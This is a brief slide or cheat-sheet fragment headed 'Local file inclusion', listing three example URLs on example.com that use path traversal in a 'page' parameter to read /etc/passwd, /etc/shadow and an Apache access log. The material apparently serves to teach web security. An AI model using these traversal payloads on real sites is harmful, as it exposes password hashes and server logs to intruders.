

# Local file inclusion
http://example.com/?page=../../../etc/passwd

http://example.com/?page=../../../etc/shadow

http://example.com/?page=../../../var/log/apache/access.log